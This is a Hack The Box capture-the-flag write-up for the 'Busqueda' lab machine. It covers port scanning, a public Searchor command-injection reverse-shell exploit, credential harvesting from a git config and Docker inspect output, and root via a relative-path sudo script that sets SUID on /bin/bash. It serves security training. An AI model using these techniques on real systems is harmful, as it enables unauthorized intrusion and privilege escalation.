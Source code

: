 ```yaml
---
title: Busqueda
categories: [HackTheBox]
tags: [PrivEsc, Public Exploit, gitea, searcher]
img_path: /Vulnhub-Files/img/
image:
  path: Busqueda/Untitled.jpeg
  alt: Linux Easy level Machine 📂 ...
---
```




## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Busqueda]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_Result.txt 10.10.11.208
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-29 10:05 IST
Nmap scan report for searcher.htb (10.10.11.208)
Host is up (0.63s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Searcher
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed.
```

## Web Enumeration ⤵️

I loaded this port 80 and I got redirected to `searcher.htb` domain name so I set the `/etc/hosts` file in the attackers machine and got this simple site →

![Untitled](Busqueda/Untitled.png)

I got this version of this CMS site `Searchor 2.4.0`  and I searched the exploit of it and got this exploit of `command Injection` through python.

[GitHub - nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection: Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection/tree/main)

Now I used this exploit and got the reverse shell on its system.

![Untitled](Busqueda/Untitled%201.png)

Lets enumerate further →

```bash
svc@busqueda:/var/www/app/.git$ cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
svc@busqueda:/var/www/app/.git$
```

I got credentials of gitea site and a new domain name too so lets set and add in /etc/hosts.

I got into its account site →

![Untitled](Busqueda/Untitled%202.png)

I also noticed the administrators account but can’t login with that same password .

I then used the cody password in as svc account password to see the `sudo -l` command to access root account.

```bash
svc@busqueda:~$ ls -al
total 36
drwxr-x--- 4 svc  svc  4096 Apr  3  2023 .
drwxr-xr-x 3 root root 4096 Dec 22  2022 ..
lrwxrwxrwx 1 root root    9 Feb 20  2023 .bash_history -> /dev/null
-rw-r--r-- 1 svc  svc   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 svc  svc  3771 Jan  6  2022 .bashrc
drwx------ 2 svc  svc  4096 Feb 28  2023 .cache
-rw-rw-r-- 1 svc  svc    76 Apr  3  2023 .gitconfig
drwxrwxr-x 5 svc  svc  4096 Jun 15  2022 .local
lrwxrwxrwx 1 root root    9 Apr  3  2023 .mysql_history -> /dev/null
-rw-r--r-- 1 svc  svc   807 Jan  6  2022 .profile
lrwxrwxrwx 1 root root    9 Feb 20  2023 .searchor-history.json -> /dev/null
-rw-r----- 1 root svc    33 Dec 28 16:47 user.txt
svc@busqueda:~$ cat user.txt
cat user.txt
ffcc2dd47b3d6d1c3a86566951886a72
svc@busqueda:~$
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
svc@busqueda:/var/www/app/.git$
```

I used this command and got 3 options →

```bash
svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py bacd
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:/tmp$
```

I used the `docker-inspect` command with format flag →

![Untitled](Busqueda/Untitled%203.png)

so lets use this command →

```bash
svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py docker-ps                  
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS        PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   11 months ago   Up 12 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   11 months ago   Up 12 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

I got 2 images of docker that can have its own configuration file so lets try it on mysql and I think I will get the credentials of mysql account →

```bash
svc@busqueda:/var/www/app/.git$ sudo python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' f84a
--format={"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"],"Cmd":["mysqld"],"Image":"mysql:8","Volumes":{"/var/lib/mysql":{}},"WorkingDir":"","Entrypoint":["docker-entrypoint.sh"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"db","com.docker.compose.version":"1.29.2"}}

svc@busqueda:/var/www/app/.git$
```

Lets use its password on gitea site for administrators access and when  I tried it I got in →

![Untitled](Busqueda/Untitled%204.png)

when I checked `system-checkup.py` file I noticed that the file path is not specified so I will be creating a file in any directory with name as `full-checkup.sh` file and insert the payload into the I will be payload to make `/bin/bash` as SUIDs permissions :

![Untitled](Busqueda/Untitled%205.png)

Lets use the `sudo python3 /opt/scripts/system-checkup.py full-checkup` command →

```bash
svc@busqueda:/tmp$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:/tmp$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
svc@busqueda:/tmp$ bash -p
bash-5.1# ls -al
bash-5.1# cd /root
bash-5.1# ls -al
total 60
drwx------  9 root root 4096 Dec 28 16:47 .
drwxr-xr-x 19 root root 4096 Mar  1  2023 ..
lrwxrwxrwx  1 root root    9 Feb 20  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  3 root root 4096 Mar  1  2023 .cache
drwx------  3 root root 4096 Mar  1  2023 .config
-rw-r-----  1 root root  430 Apr  3  2023 ecosystem.config.js
-rw-r--r--  1 root root  104 Apr  3  2023 .gitconfig
drwxr-xr-x  3 root root 4096 Mar  1  2023 .local
-rw-------  1 root root   50 Feb 20  2023 .my.cnf
lrwxrwxrwx  1 root root    9 Feb 20  2023 .mysql_history -> /dev/null
drwxr-xr-x  4 root root 4096 Mar  1  2023 .npm
drwxr-xr-x  5 root root 4096 Dec 28 16:47 .pm2
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 Dec 28 16:47 root.txt
drwxr-xr-x  4 root root 4096 Apr  3  2023 scripts
drwx------  3 root root 4096 Mar  1  2023 snap
bash-5.1# whoami
root
bash-5.1# id
uid=1000(svc) gid=1000(svc) euid=0(root) groups=1000(svc)
bash-5.1# cat root.txt
2b58c418e01ad180b2c4f5c363e9bc8e
bash-5.1#
```

I am root now !!